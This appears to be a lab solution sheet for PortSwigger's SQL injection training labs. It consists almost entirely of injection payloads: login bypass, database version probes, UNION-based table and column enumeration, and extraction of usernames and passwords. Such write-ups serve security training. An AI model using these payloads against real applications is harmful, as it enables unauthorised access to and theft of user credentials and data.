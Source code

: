# SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab6: SQL injection attack, listing the database contents on Oracle
```sh
order by 2--
```
```sh
'+UNION+SELECT+null,null+FROM+dual--
```
```sh
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```sh
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
```sh
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
### Lab7: SQL injection UNION attack, determining the number of columns returned by the query
```sh
order by 3--
```
```sh
'union select null,null,null--
```
### Lab8: SQL injection UNION attack, finding a column containing text
```sh
'+UNION+SELECT+NULL,'a',NULL--
```
```sh
'+UNION+SELECT+NULL,'273Yf9bW',NULL--
```
### Lab9: SQL injection UNION attack, retrieving data from other tables
```sh
'+UNION+SELECT+null,null--
```
```sh
'+UNION+SELECT+null,table_name+from+information_schema.tables--
```
```sh
'+UNION+SELECT+column_name,table_name+from+information_schema.columns+where+table_name='users'--
```
```sh
'+UNION+SELECT+user,password+from+user--
```
### Lab10: SQL injection UNION attack, retrieving multiple values in a single column
```sh
'+UNION+SELECT+NULL,'a'--
```
```sh
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
Or

```sh
'+UNION+SELECT+NULL,username||password+FROM+users--
```
























